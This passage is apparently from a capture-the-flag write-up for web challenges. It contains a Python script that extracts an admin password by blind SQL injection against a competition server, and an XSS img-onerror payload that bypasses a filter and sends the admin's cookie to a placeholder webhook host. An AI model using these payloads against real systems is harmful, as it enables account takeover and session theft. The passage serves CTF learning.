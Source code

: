 
The logic behind this is that the `WHERE` clause will only evaluate to true when the username is `'adm'||'in'` and the password is either empty (verifiably untrue) or has the character at index `pos` matching our brute-forced character `c`. This leads to us being able to login if and only if `c` matches with the character in the admin's password at index `pos`. We'll be able to tell if we've logged in successfully, as the error message won't appear in the HTML response, so we can automate this using a script. Here's the one I wrote.

```py
import requests
from string import printable as p
# filter out wacky characters and make known/common characters more easily accessible for a faster bruteforce
p = "_{} \n" + p[:-6].replace('"', "").replace("\\", "").replace("'", "")

s = requests.session()
url = "http://chal1.pctf.competitivecyber.club:1969/login"

pos = 1
i = 0
while True:
    c = p[i]
    data = {
        "username": "adm'||'in",
        "password": "' OR SUBSTR(`passwOrd`, {pos}, 1) = '{c}".format(
            pos = pos,
            c = c
        )
    }
    r = s.post(url, data=data).text

    if "Wrong username or password" in r: # failed login
        i += 1
        continue

    pos += 1
    i = 0
    print(c, end="")
```  

Log in to the admin account with this password you've just found, and this reveals the flag.

---

## Chewy or Crunchy

> I am in the process of making the next big social media platform but I have a history of implementing software insecurely. If you can get into the admin user, I will give you a flag. Feel free to send me a message, I try to respond quickly!  
>
> Author: NihilistPenguin (Daniel Getter)

From the challenge description and due to the fact that you can send messages to the mysterious entity `admin`, this seems like an XSS challenge, so let's try to steal the admin's cookies.  

There is a filter on all messages that blocks these characters: `.>{}`, so using a `<script>` tag won't work as you can never end the opening tag to start writing your JavaScript code. However, `<img>` tags can have JavaScript code be executed via use of event handler attributes such as `onerror`, and a payload that works is `<img src=x onerror="javascript:your_payload_here" `, as due to the trailing space, any subsequent HTML is then treated either as part of a new attribute or as the closing part of the tag (if it's `>`). Submitting this payload with some javascript to exfiltrate the admin's cookie then logging in as the admin yields the flag.

```html
<!-- The src=x raises an error (404 not found) to trigger the onerror event handler. -->
<img src=x onerror="fetch('https://webhook_link/' + document.cookie);" 
```

---

## Not So Secret
